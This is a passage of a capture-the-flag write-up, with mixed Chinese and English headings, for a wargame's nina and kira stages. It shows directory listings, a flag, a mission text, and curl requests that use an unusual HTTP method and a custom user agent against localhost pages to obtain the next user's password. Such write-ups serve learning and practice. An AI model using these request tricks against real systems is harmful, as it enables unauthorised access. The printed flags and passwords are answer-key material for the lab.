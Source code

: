 ### 行动

```bash title="ls -lah"
total 32K
drwxr-x--- 2 root nina 4.0K Jul 26  2023 .
drwxr-xr-x 1 root root 4.0K Jul 26  2023 ..
-rw-r--r-- 1 nina nina  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 nina nina 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 nina nina  807 Apr 23  2023 .profile
-rw-r----- 1 root nina   31 Jul 26  2023 flagz.txt
-rw-r----- 1 root nina  197 Jul 26  2023 mission.txt
```

```bash title="curl -XPUT http://localhost/method.php"
tPlqxSKuT4eP3yr
```

## Stage - kira

### flag - 30

```plaintext
8===rJun2WyeuGIvabWQvJko===D~~
```

### 任务目标

```plaintext title="/pwned/kira/mission.txt"
################
# MISSION 31 #
################

## EN ##
The user veronica visits a lot http://localhost/waiting.php
```

### 行动

```bash title="ls -lah"
total 32K
drwxr-x--- 2 root kira 4.0K Jul 26  2023 .
drwxr-xr-x 1 root root 4.0K Jul 26  2023 ..
-rw-r--r-- 1 kira kira  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 kira kira 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 kira kira  807 Apr 23  2023 .profile
-rw-r----- 1 root kira   31 Jul 26  2023 flagz.txt
-rw-r----- 1 root kira  191 Jul 26  2023 mission.txt
```

```bash title="curl -A PARADISE http://localhost/waiting.php"
QTOel6BodTx2cwX
```
